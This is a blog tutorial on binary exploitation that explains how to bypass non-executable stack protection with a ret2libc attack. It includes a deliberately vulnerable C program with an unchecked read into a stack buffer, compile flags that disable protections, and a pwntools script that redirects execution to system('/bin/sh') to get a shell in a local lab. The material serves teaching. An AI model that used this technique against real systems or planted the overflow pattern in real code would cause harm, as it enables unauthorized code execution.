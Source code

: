 ```yaml
---
title: "Pwn 0x02: NX Bypass"
author: "Signore"
date: 2022-08-22
summary: "Stack isn't allowing code execution? Let's bypass it"
description: ""
categories: [""]
tags: ["pwn", "buffer overflow", "ret2libc"]
series: ["Binary Exploitation Adventures"]
keywords: ["pwn", "binary", "memory", "x32", "x64", "gdb", "memory corruption", "binary exploitation", "exploit development", "ret2libc", "return2libc", "ret2system"]
ShowToc: true
cover:
  image: "images/cover-binexp-02.png"
  caption: "cover"

---
```


In this post we are going to learn an exploit mitigation technique: what it is and how to bypass it.

New to the series? check out my previous posts [here](/blog/series/binary-exploitation-adventures).

## No Execute

Last time, we put shellcode on the stack and called it to get code execution. <br>
In modern binaries, usually what happens is that the stack is not executable, means we can put something on the stack but it will only be considered a piece of data by the program and not some cpu instruction. This technique is called **NX** (No eXecute) or **DEP** (Data Execution Prevention).

Although the data on the stack is not executable, making a function call and passing required/desired arguments is still allowed. We're going to make use of this fact.

When we are writing code for a program, we don't write code for `print` and such functions. They are said to be built-ins. When we compile the program, the compiler links the program to a library (shared object) in which it would be able to find definitions of those functions during execution. <br>
Such programs are termed as Dynamically Compiled which we mostly deal with because this process saves the coder a lot of time and effort, while the opposite are Statically Compiled programs which we won't talk about for now.

Most of the C programs - whether it's x86 or x64 - rely on **libc**, the default C library.
<details><summary>We can see the shared objects (libraries) being used by a program, with the <code>ldd</code> command</summary>

{{< terminal title="Terminal" >}}
![](img00.png)
{{< /terminal >}}
</details><br>

Since during the program execution, the program is making use of library functions, so the library (libc) is mapped in memory. We can abuse this by finding memory addresses and making calls to other functions present in the library as per our need (or as per desire ;)

`print`, `write`, `system`, `exit`, etc are some of the functions present in the libc out of which, for now, we are most interested in `system`.

### Setup

Using the code from previous exercise:
{{< terminal title="vulnerable.c" >}}
```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
    char buffer[500];
    int userinput;
    userinput = read(0, buffer, 700);
    printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0; 
}

int main(int argc, char *argv[]){
    overflow();
    return 0;
}
```
{{< /terminal >}}

Compile with the command:
{{< terminal title="Terminal" >}}
```shell
gcc -m32 -fno-stack-protector vulnerable.c -o vulnerable
```
{{< /terminal >}}

Notice that we are not using the `-z execstack` flag anymore, which makes the stack executable.

Our program has following protections:
{{< terminal title="Terminal" >}}
![](img01.png)
{{< /terminal >}}

Before proceeding any further, remember to disable ASLR.

## Exploitation

We find the offset of EIP to be 516. You know how, right?

We want to execute `system("/bin/sh")` for which we are going to overwrite the EIP with the address of the `system` function, and then we'll give the return address which can be anything (e.g JUNK) but we will keep it to be the address of the `exit` function so that our program terminates nicely. Lastly, we will give the function arguments which, in present case, would be the address of the `/bin/sh` string. <br>
Remember stack alignment? revise [here](/blog/posts/pwn-0x01-buffer-overflow/#the-stack)

<details><summary>With the <code>vmmap</code> command in gdb, we can see that the libc/certain sections of libc are loaded into the program</summary>

{{< terminal title="Terminal" >}}
![](img02.png)
{{< /terminal >}}
</details><br>

Let's get our required memory addresses with gdb:
{{< terminal title="Terminal" >}}
![](img03.png)
{{< /terminal >}}

Now that we have all we needed, let's construct our exploit:
{{< terminal title="exploit.py" >}}
```py
from pwn import *

exe = "./vulnerable"
elf = context.binary = ELF(exe,checksec=False)

system_addr = 0xf7dff040
exit_addr = 0xf7df1990
binsh_addr = 0xf7f46338

padding = "A"*516

payload = flat(padding, system_addr, exit_addr, binsh_addr)

#write("payload",payload)
io = process(exe)
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

Let's run the exploit:
{{< terminal title="Terminal" >}}
![](img04.png)
{{< /terminal >}}
And.. Yea! we got our shell :fire:
